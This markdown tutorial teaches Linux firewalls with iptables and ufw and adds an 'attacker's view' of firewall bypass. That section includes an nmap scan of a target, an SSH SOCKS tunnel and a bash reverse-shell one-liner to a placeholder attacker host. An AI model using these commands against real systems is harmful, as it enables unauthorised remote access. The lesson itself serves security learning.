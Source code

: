 # Day 16 – Firewalls & Packet Filtering (iptables & ufw)
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/889f5ffe-e362-4c06-a357-c83ab0bb131b" />

Firewalls are one of the first layers of defense in any Linux system. As hackers or pentesters, understanding how they work — and how to bypass them — is essential.

---

## 🔹 1. Understanding iptables

`iptables` is the traditional firewall tool in Linux. It controls the traffic that flows in and out of the system.

- **Tables**: 
  - `filter` → default, used for packet filtering
  - `nat` → used for network address translation (e.g., port forwarding)
  - `mangle` → advanced packet modification

- **Chains**: 
  - `INPUT` → incoming traffic
  - `OUTPUT` → outgoing traffic
  - `FORWARD` → traffic routed through the system

### 📌 Viewing rules
```bash
iptables -L -n -v
```

### 📌 Adding rules
```bash
iptables -A INPUT -p tcp --dport 22 -j ACCEPT   # Allow SSH
iptables -A INPUT -j DROP                       # Drop everything else
```

---

## 🔹 2. UFW – Uncomplicated Firewall

`ufw` is a simpler frontend to `iptables`.

### 📌 Basic commands
```bash
ufw status
ufw enable
ufw allow 80/tcp
ufw deny 23/tcp
ufw default deny incoming
ufw default allow outgoing
```

This simplifies firewall management for administrators.

---

## 🔹 3. Attacker’s View

Firewalls create barriers, but attackers always look for misconfigurations:

- **Port scanning:**  
  ```bash
  nmap -Pn -p- target.com
  ```
  (`-Pn` skips ICMP echo, useful if ping is blocked.)

- **Tunneling:**  
  Attackers often tunnel traffic to bypass firewalls:  
  ```bash
  ssh -D 9050 user@target.com
  ```
  (Creates a SOCKS proxy.)

- **Outbound traffic:**  
  Even if inbound is locked, many firewalls allow outbound. This can be abused for reverse shells:  
  ```bash
  bash -i >& /dev/tcp/attacker-ip/4444 0>&1
  ```

---

## 🔹 4. Real-World Pentesting Scenarios

- Misconfigured firewalls with `ACCEPT` rules before restrictive ones.  
- Firewalls allowing “trusted” IPs that attackers can spoof.  
- Services bound to `0.0.0.0` but intended only for localhost.  

---

## 🔹 5. Practical Tasks

1. List all current firewall rules on your machine.  
   ```bash
   iptables -L -n -v
   ```

2. Block SSH access (port 22) with iptables, then try to connect.  

3. Using `ufw`, configure your system to:  
   - Allow HTTP (80) and HTTPS (443).  
   - Deny all other inbound connections.  

4. Simulate bypass: Run `nmap` with `-Pn` against a target with ICMP blocked.  

---

## 🔹 6. Key Takeaways

- Firewalls filter traffic using rules in tables/chains.  
- `iptables` gives fine control; `ufw` simplifies management.  
- Attackers focus on misconfigurations, tunneling, and outbound traffic.  
- Always test firewall behavior during pentests.

---

📢 Follow **@CyberSecPlayground** on Telegram for more daily Linux hacking lessons, red team tips, and pentesting tricks!
